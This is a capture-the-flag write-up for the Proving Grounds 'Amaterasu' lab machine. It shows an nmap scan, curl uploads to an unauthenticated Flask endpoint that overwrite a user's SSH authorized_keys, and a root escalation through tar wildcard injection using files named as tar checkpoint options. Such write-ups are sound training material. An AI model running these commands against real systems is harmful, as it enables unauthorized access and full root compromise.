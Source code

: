 ```yaml
---
layout: default
title: Amaterasu
parent: Proving Grounds Play
nav_order: 22
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.249

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.45.217
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey:
|   256 68:c6:05:e8:dc:f2:9a:2a:78:9b:ee:a1:ae:f6:38:1a (ECDSA)
|_  256 e9:89:cc:c2:17:14:f3:bc:62:21:06:4a:5e:71:80:ce (ED25519)
33414/tcp open  unknown
Werkzeug/2.2.3 Python/3.9.13
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
|_http-title: My test page
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.53 (Fedora)

```

# Enumeration

---

## 21 | FTP

Enters "passive mode" everytime I enter a command. Appears to be a deadend.

## 33414 | Werkzeug/2.2.3 Python/3.9.13

Running Gobuster we find _/help_ directory.

![help](../../../assets/images/ctfs/proving_grounds/amaterasu/help.png)

It appears we can use a CURL POST request to upload a file to _/file-upload_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ curl -L -i -X POST -H "Content-Type: multipart/form-data" -F file=@"test.txt" -F filename="test.txt" http://192.168.160.249:33414/file-upload
HTTP/1.1 201 CREATED
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Sun, 12 Nov 2023 23:10:50 GMT
Content-Type: application/json
Content-Length: 41
Connection: close

{"message":"File successfully uploaded"}

```

Checking the Flask server we can see the file was uploaded.

![test](../../../assets/images/ctfs/proving_grounds/amaterasu/test.png)

We have LFI and now need to determine how best to exploit this.

# Exploitation

---

Checking the _/home_ directory we see there is a user directory _/alfredo_.

We can attempt to generate a new _id_rsa_ file to replace his existing RSA private key for SSH authentication.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/vagrant/.ssh/id_rsa): /home/vagrant/Documents/PG/PLAY/amatera
su/id_alfredo
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/vagrant/Documents/PG/PLAY/amaterasu/id_alfredo
Your public key has been saved in /home/vagrant/Documents/PG/PLAY/amaterasu/id_alfredo.pub

```

Now upload to the _/home/aldredo_ directory.

We need to upload as a _.txt_ file and remove the file extension on the remote directory where it is being uploaded.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ mv id_alfredo.pub id_alfredo.txt

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ curl -F filename="/home/alfredo/.ssh/authorized_keys" -F file=@id_alfredo.txt http://192.168.160.249:33414/file-upload
{"message":"File successfully uploaded"}


```

![authorized](../../../assets/images/ctfs/proving_grounds/amaterasu/authorized.png)

Now we can authenticate to the SSH service as _alfredo_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ ssh -p 25022 -i id_alfredo alfredo@192.168.160.249
Last failed login: Sun Nov 12 18:28:25 EST 2023 from 192.168.45.217 on ssh:notty
There were 3 failed login attempts since the last successful login.
Last login: Tue Mar 28 03:21:25 2023
[alfredo@fedora ~]$ id
uid=1000(alfredo) gid=1000(alfredo) groups=1000(alfredo)

```

# Post-Exploitation

---

## Check Cron Jobs

```bash
[alfredo@fedora ~]$ cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh

```

Check the _/usr/local/bin/backup-flask.sh_ job that is running every minute.

```bash
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *

```

This job is running _tar_ with the astrisk.

This allows for an exploitation technique known as _Bash Gobbling_

Let's create a malicious script that copies the _/home/alfredo/.ssh/authorized_keys_ to \*/root/.ssh/authorized_keys"

```bash
[alfredo@fedora ~]$ cd restapi
[alfredo@fedora restapi]$ echo '#!/bin/bash' >> getroot.sh
[alfredo@fedora restapi]$ echo 'cp /home/alfredo/.ssh/authorized_keys /root/.ssh/authorized_keys' >> getroot.sh
[alfredo@fedora restapi]$ cat getroot.sh#!/bin/bash
cp /home/alfredo/.ssh/authorized_keys /root/.ssh/authorized_keys
```

Now we can tamper with the backup process:

```bash
[alfredo@fedora restapi]$ touch ./--checkpoint=1 ./--checkpoint-action=exec=getroot.sh
```

Wait a few minutes for the cronjob to execute and then SSH into the system as the root user.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ ssh -p 25022 -i id_alfredo root@192.168.213.249
Web console: https://fedora:9090/

Last login: Tue Mar 28 03:21:22 2023
[root@fedora ~]# id
uid=0(root) gid=0(root) groups=0(root)

```
